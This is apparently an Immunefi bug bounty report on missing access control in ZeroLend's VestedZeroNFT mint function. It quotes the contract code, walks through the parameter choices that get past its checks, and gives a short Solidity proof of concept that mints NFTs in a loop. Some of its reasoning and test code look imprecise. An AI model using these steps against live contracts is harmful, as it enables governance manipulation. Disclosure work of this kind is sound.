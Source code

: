 # 29130 - \[SC - Medium] Unlimited Minting of VestedZeroNFT

Submitted on Mar 7th 2024 at 23:55:31 UTC by @oxumarkhatab for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29130

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:

* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

In current Implementation , the checks can easily be passed inside the public mint function because all the paramters are user controlled and there is no access control on that function.

## Vulnerability Details

The mint function does not have any access control implemented . Also there are checks which can easily be circumvented through careful crafting of those parameters and minting unlimited NFTs .

Take a look at this code

```
    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);

        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }

        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });

        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

        return lastTokenId;
    }

```

First of all , there is no restriction to call this function so attacker can call and exploit it.

The function mints the latest ID NFT to the address passed , the attacker will pas his own address \` \_mint(\_who, ++lastTokenId);

\` Now attacker has to make this transaction success by avoiding require failures. here's how he can do it.

If user pass `_unlockDate` as 0 , then following checks will be passed \` if (\_unlockDate == 0) \_unlockDate = block.timestamp; require(\_unlockDate >= block.timestamp, "invalid \_unlockDate");

\`

Now for circumventing Plenty block, user will pass false

`if (_hasPenalty) { require(_upfront == 0, "no upfront when there is a penalty"); require(_cliffDuration == 0, "no cliff when there is a penalty"); }` a new Lock is created

`tokenIdToLockDetails[lastTokenId] = LockDetails({ cliffDuration: _cliffDuration, unlockDate: _unlockDate, pendingClaimed: 0, upfrontClaimed: 0, pending: _pending, hasPenalty: _hasPenalty, upfront: _upfront, linearDuration: _linearDuration, createdAt: block.timestamp, category: _category });`

And lastly some zeroToken needs to be moved from attacker's pocket to VestedZeroNFT contract . Which attacker can easily trick by passing pending and upfront amounts as 0 , \` zero.transferFrom(msg.sender, address(this), \_pending + \_upfront);

\` See the protocol does not use safeTransferFrom , rather transferFrom from openzeppelin standard as it imports as follows

\` import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

\` Looking at OZs implementation , this function returns false on not sucess, so whatever amount we pass in as \_pending and \_upfront , the transfer might fail but transaction will not . That is the sweet spot for attacker.

`function transferFrom(address from, address to, uint256 value) external returns (bool);`

The Transaction is sucessfully executed and now the attacker has New NFT.

This process can be repeated for as long as attacker wants to print money out of thin air .

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## Impact Details

Attacker can have unlimited NFTs at the cost of just gas for transaction : )

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## References

See PoC for more details

## Proof of Concept

```solidity

event NewTokenIDMinted(uint);

    function test_InfiniteMint()public {
        address DEPLOYED_VESTED_ZERO_NFT_ADDRESS=address();
        address AttackerAddress=0x37A8d3c717ec8fDc8BD859627F18ce89c31E1E8b;
        VestedZeroNFT vest=new VestedZeroNFT();
        for (uint i = 0; i < 1000; i++) {
            
            uint newTokenId =vest.mint(
                    AttackerAddress,
                    0,
                    0,
                    0, // pass any suitable value 
                    0, // pass any suitable value 
                    0 ,// to  these checks  if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");
                    false,
                    VestCategory.EARLY_ZERO


                );
                emit NewTokenIDMinted(newTokenId);
            
            }

    }
```
